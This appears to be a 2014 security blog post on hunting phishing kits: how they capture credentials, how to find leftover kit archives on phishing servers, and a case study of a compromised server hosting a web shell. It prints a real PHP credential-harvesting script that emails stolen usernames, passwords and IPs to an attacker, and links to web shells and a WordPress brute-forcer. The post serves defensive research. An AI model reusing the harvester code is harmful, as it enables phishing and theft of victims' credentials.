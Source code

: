 ```yaml
---
layout: post
title: "How to Hunt Down Phishing Kits"
date: 2014-07-30 22:12
comments: true
categories: phishing, phishing kits
---
```

<img src="{{root_url}}/images/headers/phishing_kit.png"/>
### Introduction
Sites like [phishtank](http://www.phishtank.com/phish_archive.php) and [clean-mx](http://support.clean-mx.com/clean-mx/phishing.php) act as crowdsourced phishing detection and validation. By knowing how to look, you can consistently find [interesting information](http://jordan-wright.github.io/blog/2014/04/04/a-look-at-comment-spam-generator-scripts/) about how attackers work, and the tools they use to conduct phishing campaigns. This post will give an example of how *phishing kits* are used, how to find them, as well as show a case study into other tools attackers use to maintain access to compromised servers.
<!-- more -->
### How Phishing Kits Work
To perform a phishing attack, attackers commonly employ prebuilt *phishing kits*. These kits come as a zip archive containing the HTML source code of the site they are spoofing, as well as accompanying PHP scripts that capture and process the phished credentials. Once credentials are submitted from a victim, they are passed to a script that looks similar to this (real) example:

```php
<?php
session_start();
if(!isset($_SESSION['username']) || $_SESSION['username'] == "" || !isset($_SESSION['password']) || $_SESSION['password'] == ""){
        header("Location:file_doc.php");
        exit;
}
session_destroy();
$username = $_SESSION['username'];
$password = $_SESSION['password'];

$ip = getenv("REMOTE_ADDR");
$country = visitor_country();
$message .= "-------Moded by Ghost Wir3 ----------\n";
$message .= "Username: ".$username."\n";
$message .= "Password : ".$password."\n";
$message .= "IP: ".$ip."\n";
$message .= "Country: ".$country."\n";
$recipient = "[redacted]@gmail.com";
$subject = "Ghost Wir3 - ".$country;
$headers = "From:  Ghost Wir3 <no_reply@mail.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";

$arr = country_sort();
foreach ($arr as $recipient)
{
        mail($recipient,$subject,$message,$headers);
}
?>
```

In this example, to reuse the phishing kit, an attacker simply needs to change the ```$recipient``` variable to point to their address. In addition to this, if we as defenders are able to pull this PHP code, we can quickly identify the threat actor (in this case, [redacted]@gmail.com).

### How to Find Phishing Kits
We've seen that these kits generally require the credentials to be processed by server-side code. Unless there is a misconfiguration on the server, we will not be able to view this code, only that credentials are being passed to it.

However, with that being said, *many attackers are **lazy***. I've seen from experience that the original zip file containing the phishing kit is often left on the server, and can be downloaded to reveal the server-side source code. Additionally, the directories hosting the phishing kits often have indexing enabled, making it easier for us to see the files in the directory. This same technique has also [been used previously by researchers](https://www.usenix.org/legacy/events/woot08/tech/full_papers/cova/cova.pdf) with success.

<img src="{{root_url}}/images/blog/phish_kits/directory_index.png"/>

Knowing this, we can send requests for common archive extensions automatically in the hopes of finding the original phishing kits. These extensions include things such as .zip, .tar, .tar.gz, and .rar. For example, if the URL found by phishtank or clean-mx is http://x.x.x.x/apple/index.php, we could send requests for http://x.x.x.x/apple.zip with success in many cases.

In some cases, finding the original phishing kit can reveal even more information about the tools and techniques used by attackers. Here's an example of one of those cases.

### A Look into a Compromised Website
While performing random checks on many of the sites listed on phishtank and clean-mx, I came across one site that had a phishing kit located in the /phpmyadmin directory. When checking the files in the phishing kit, I found reference to a c100.php web shell. Sure enough, this file was still in place on the server:

<img src="{{root_url}}/images/blog/phish_kits/c100.png" />

PHP backdoors provide substantial access to attackers, facilitating further attacks and control over the compromised server. The c100.php and c99.php backdoors are among the most popular backdoors used by attackers. Through some Googling, we can see that there are **tons** of servers that are compromised using [these](https://www.google.com/search?q=inurl%3A%22c99.php%22%22AND+filetype%3Aphp+%22!C99Shell%22+AND+%22Software%22) [shells](https://www.google.com/search?q=inurl%3A%22c100.php%22%22AND+filetype%3Aphp+%22%21C100%22+AND+%22Software%22).

This shell revealed additional scripts (and other webshells) used by the attacker, including (but certainly not limited to!) the following:

*  [valider.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-valider-php) - The credential caching script
*  [wpbrute.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-wpbrute-php) - A Wordpress brute forcing script
*  [wso.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-wso-php) - Another web shell

### Fellow Phish Hunters
In the process of pulling down additional scripts used by the attacker, I ran across the site access logs. Looking through this log, I could see the details of what files the attacker was accessing on the server, as well as determine that these files were in place as early as July 27, 2014. In addition to this, I found the following snippet:

```
[29/Jul/2014:02:59:44 +0100] "GET /phpmyadmin/tardis.zip HTTP/1.1" 404 428 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:44 +0100] "GET /phpmyadmin/paypal/tardis.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/paypal.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/wellsfargo.zip HTTP/1.1" 404 439 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/chase.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/boa.zip HTTP/1.1" 404 432 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/update.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/pp.zip HTTP/1.1" 404 431 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/wells.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/remax.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:46 +0100] "GET /phpmyadmin/paypal/paypal.com.zip HTTP/1.1" 404 439 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:46 +0100] "GET /phpmyadmin/paypal/us.zip HTTP/1.1" 404 431 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:47 +0100] "GET /phpmyadmin/paypal/www.paypal.com.zip HTTP/1.1" 404 443 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:47 +0100] "GET /phpmyadmin/paypal/bankofamerica.com.zip HTTP/1.1" 404 446 "-" "Java/1.7.0_45"
```

We can see that someone has a Java bot that is performing the same technique I described above, by automatically sending requests for common phishing kits. In fact, this and another bot submitted a **substantial** number of requests for common files to be found on phishing kits. I'll likely parse these out and make another blog post with the full list for those interested.

### Conclusion
Hopefully this post not only shows a few of the interesting pieces of information we can find when investigating servers used for phishing campaigns, but also that there is still an incredible amount of work to be done in identifying threat actors behind phishing campaigns. As always, let me know if you have any questions or comments below!

-Jordan


